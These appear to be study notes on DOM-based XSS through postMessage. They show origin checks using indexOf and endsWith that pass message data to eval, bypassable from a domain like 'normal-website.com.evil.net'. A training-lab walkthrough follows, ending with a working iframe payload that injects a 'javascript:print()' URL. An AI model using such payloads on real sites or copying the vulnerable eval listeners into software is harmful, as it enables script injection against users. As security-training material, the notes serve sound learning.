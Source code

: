 Even if an event listener does include some form of origin verification, this verification step can sometimes be fundamentally flawed.
**Example** - consider the following code:
```js
window.addEventListener('message', function(e) { 
	if (e.origin.indexOf('normal-website.com') > -1) { 
		eval(e.data); 
	} 
});
```
- The `indexOf` method is used to try and verify that the origin of the incoming message is the `normal-website.com` domain. However, in practice, it only checks whether the string `"normal-website.com"` is contained anywhere in the origin URL.
- As a result, an attacker could easily bypass this verification step if the origin of their malicious message was `http://www.normal-website.com.evil.net`

**for example:**
The same flaw also applies to verification checks that rely on the `startsWith()` or `endsWith()` methods.

**For example, the following event listener would regard the origin `http://www.malicious-websitenormal-website.com` as safe:**
```js
window.addEventListener('message', function(e) { 
	if (e.origin.endsWith('normal-website.com')) { 
		eval(e.data); 
	} 
});
```

## Steps to solve lab
### Title - [[DOM-based_XSS]] using web messages and `JSON.parse`
**Desc** - This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

**Our end goal** - To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.


1. Using the browser's developer tools, you look at the HTML code and as well as javascript code to analyze the overall functionality of the web page.
![[XSS34.png]]

#### Code explaination - 
1. **Event Listener Setup:**
```js
	window.addEventListener('message', function(e) {
    // Code to handle the received message
}, false);
```
This code sets up an event listener on the `window` object to listen for the `'message'` event. When another window or iframe sends a message to this window, the code inside the function will be executed.

2. **Creating an Iframe:**
```js
var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
document.body.appendChild(iframe);
```
An `<iframe>` (inline frame) element is created. This iframe is used to display content from another source within the current webpage. The `ACMEplayer` object is created, and it contains a reference to the newly created iframe. The iframe is then added to the document's `<body>`.

3. **Parsing the Received Message:**
```js
try {
    d = JSON.parse(e.data);
} catch(e) {
    return;
}
```
The received message's data (`e.data`) is assumed to be in JSON format. The code attempts to parse the JSON data into an object using `JSON.parse()`. If the parsing is successful, the resulting object is assigned to the variable `d`. If parsing fails (for example, if the message isn't valid JSON), the code inside the `catch` block is executed, and the function returns early.

4. **Switch Statement for Message Types:**
```js
switch(d.type) {
    case "page-load":
        ACMEplayer.element.scrollIntoView();
        break;
    case "load-channel":
        ACMEplayer.element.src = d.url;
        break;
    case "player-height-changed":
        ACMEplayer.element.style.width = d.width + "px";
        ACMEplayer.element.style.height = d.height + "px";
        break;
}
```
- The code uses a `switch` statement to handle different types of messages. The type of the message is expected to be in the `type` property of the parsed message object (`d`). Depending on the message type, different actions are taken:
	- If the message type is `"page-load"`, the `scrollIntoView()` method is called on the iframe element. This could scroll the page to bring the iframe into view.
	- If the message type is `"load-channel"`, the `src` attribute of the iframe element is set to the URL specified in the message object.
	- If the message type is `"player-height-changed"`, the width and height of the iframe element are updated based on the values provided in the message.



2. Now, after analyzing the front-end js code, we can craft the payload and send it to the client. As shown below;
```jsx
<iframe src="https://0a11005403622ef180536c8e0067002e.web-security-academy.net" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

![[XSS35.png]]

